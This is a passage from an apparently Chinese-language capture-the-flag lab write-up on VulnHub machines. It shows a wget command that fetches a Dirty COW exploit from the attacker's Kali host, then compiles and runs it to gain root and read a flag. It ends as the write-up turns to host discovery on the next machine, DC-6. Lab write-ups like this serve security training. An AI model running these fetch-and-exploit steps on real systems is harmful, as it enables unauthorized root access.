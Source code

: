 ![image-20220316101312065](https://gitee.com/xxb667/img/raw/master/img/image-20220316101312065.png)



在刚才ssh登录的tiago用户的/tmp目录下下载40847.cpp文件：

```
wget http://192.168.81.131:1234/dirty.c
#ip地址改为自己的kali的IP
```

![image-20220316103005510](https://gitee.com/xxb667/img/raw/master/img/image-20220316103005510.png)

编译

```
gcc -pthread dirty.c -o dcow -lcrypt
```

- 而gcc手册里则指出应该在编译和链接时都增加 -pthread 选项
- -lcrypt返回一个指向以NULL结尾的密码字符串

```
./dcow     #运行木马
1234567  #输入新密码
su -     #切换root用户
cd /root
cat flag.txt
```

![image-20220316103203844](https://gitee.com/xxb667/img/raw/master/img/image-20220316103203844.png)

![image-20220316103329449](https://gitee.com/xxb667/img/raw/master/img/image-20220316103329449.png)

![image-20220316103432693](https://gitee.com/xxb667/img/raw/master/img/image-20220316103432693.png)

# 第6次 DC-6

# 1.信息收集

## 1.1 主机发现

```
netdiscover
```

目标IP地址为：

```
192.168.81.143
```

![image-20220317105440134](https://gitee.com/xxb667/img/raw/master/img/image-20220317105440134.png)
